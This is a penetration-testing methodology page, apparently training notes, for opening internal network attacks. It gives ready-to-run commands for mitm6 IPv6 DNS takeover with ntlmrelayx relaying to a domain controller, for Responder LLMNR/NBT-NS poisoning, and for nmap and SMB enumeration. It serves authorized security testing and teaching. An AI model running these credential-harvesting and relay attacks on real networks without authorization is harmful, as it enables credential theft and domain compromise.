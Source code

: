 # Initial Internal Attack Strategy

## Overview
This methodology outlines the systematic approach for conducting initial internal network attacks during penetration testing. The strategy focuses on maximizing early wins and establishing footholds within the internal network.

## TCM Security Initial Internal Attack Strategy

### 1. Begin Day with mitm6 or Responder
Start passive credential harvesting immediately to capture authentication attempts throughout the day.

#### mitm6 Setup
```bash
# Start mitm6 for IPv6 DNS takeover
mitm6 -d domain.local -v

# In separate terminal, set up ntlmrelayx
ntlmrelayx.py -t ldaps://dc.domain.local -wh fakewpad.domain.local -6
```

#### Responder Setup
```bash
# Start Responder for LLMNR/NBT-NS poisoning
responder -I eth0 -wrf

# Alternative: Start specific services only
responder -I eth0 -w -r -f --lm
```

### 2. Run Scans to Generate Traffic
Perform network scanning to identify targets and generate network activity that may trigger authentication attempts.

#### Network Discovery
```bash
# Quick ping sweep
nmap -sn 192.168.1.0/24

# Fast port scan of common services
nmap -F --top-ports 1000 192.168.1.0/24

# Service version detection on key ports
nmap -sV -p 21,22,23,25,53,80,110,111,135,139,143,443,993,995,1723,3306,3389,5432,5900,6000,6001,6002,6003,6004,6005,6006 192.168.1.0/24
```

#### SMB Enumeration
```bash
# SMB share enumeration (generates authentication attempts)
smbclient -L //target_ip -N
enum4linux -a target_ip
smbmap -H target_ip
```
